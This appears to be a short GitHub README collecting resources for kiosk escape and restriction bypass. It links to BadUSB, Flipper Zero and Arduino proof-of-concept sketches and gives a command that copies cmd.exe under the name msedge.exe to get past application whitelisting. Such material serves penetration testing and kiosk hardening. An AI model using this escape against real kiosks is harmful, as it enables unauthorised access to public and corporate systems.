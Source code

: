 # Awesome-Kiosk-Hacking
Compilation of scripts and resources used for the escape, evasion and bypass of tactile kiosks. There are different cases depending on the specifics of each kiosk device.

[BadUSB/FlipperZero Big Evasion](https://github.com/nocomp/Kiosk-evasion-BADUsb-Bruteforce)

In this repository you can find the same proof of concept, along with other more reduced ones to integrate it into an Arduino Nano / Leonardo. 
See the files:

- [Malduino_kiosk_scape_big1.ino](https://github.com/jomoza/Awesome-Kiosk-Hacking/blob/main/Malduino_kiosk_scape_big1.ino)
- [Malduino_kiosk_scape_med1.ino]()
- [Malduino_kiosk_scape_min1.ino]()

### A trusted binary for kiosk configuration on windows

[A nice simple YT video](https://www.youtube.com/watch?v=aBMvFmoMFMI)

##### Simple "Oneliner" (it runs cmd so...)
```
  cmd /c copy "%SYSTEMROOT%\System32\cmd.exe" "%PUBLIC%\msedge.exe"
  cmd /c copy "%SYSTEMROOT%\System32\cmd.exe" "%PUBLIC%\msedge.exe" & ren "%PUBLIC%\msedge.exe" "msedge.exe"
```
